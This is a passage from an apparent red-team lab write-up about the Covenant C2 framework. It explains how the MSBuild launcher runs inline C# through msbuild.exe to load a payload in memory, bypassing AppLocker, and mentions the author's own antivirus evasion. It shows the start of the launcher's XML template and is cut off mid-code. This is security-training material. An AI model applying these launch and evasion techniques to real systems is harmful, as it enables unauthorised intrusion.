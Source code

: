 ![Terminal Image](../assets/img/covenant-offshore/terminal.png)

There's plenty more I could go into about Covenant here, and while I think it still has a way to go in terms of its capabilities as a C2 framework, I really like its interface and approach to employing the .NET framework offensively. 


## Covenant's msbuild Launcher
Of course an open-source red-teaming framework is going to be signatured by antivirus... [Cobbr has mentioned](https://github.com/cobbr/Covenant/issues/261) a few times that evasion is left up to individual users/teams. I took my own (pretty simple) approach to evading signature detection which worked well-enough for the Offshore labs at the time. 

Covenant has multiple [multiple launcher options](https://github.com/cobbr/Covenant/tree/master/Covenant/Models/Launchers) which generate and compile (where necessary) code for executing a stager that will download a Grunt payload from the C2 server to be executed in-memory via `System.Reflection.Assembly.Load()` function. In most cases, getting a launcher onto the target and executing it is the first step in getting a grunt to execute on a target.

For Offshore, I decided to roll with the MSBuild launcher. [This blog post](https://www.hackingarticles.in/windows-exploitation-msbuild/) does a great job of explaining how `msbuild.exe` can be used to execute .NET malware, while also serving as an [applocker bypass](https://www.hackingarticles.in/windows-applocker-policy-a-beginners-guide/)!

The msbuild launcher generates an [XML project file](https://docs.microsoft.com/en-us/visualstudio/msbuild/msbuild-project-file-schema-reference?view=vs-2019) that is passed as a command-line argument to `msbuild.exe` and contains a [`<Task>`](https://docs.microsoft.com/en-us/visualstudio/msbuild/msbuild-inline-tasks) (inline-task) element that includes executable C# code. 

```xml
private static string XMLTemplate =
@"<Project ToolsVersion=""4.0"" xmlns=""http://schemas.microsoft.com/developer/msbuild/2003"">
  <Target Name=""{{TARGET_NAME}}"">
    <{{TASK_NAME}}>
    </{{TASK_NAME}}>
  </Target>
  <UsingTask TaskName=""{{TASK_NAME}}"" TaskFactory=""CodeTaskFactory"" AssemblyFile=""C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll"" >
    <ParameterGroup/>
    <Task>
      <Code Type=""Fragment"" Language=""cs"">
        <![CDATA[
            var oms = new System.IO.MemoryStream();
```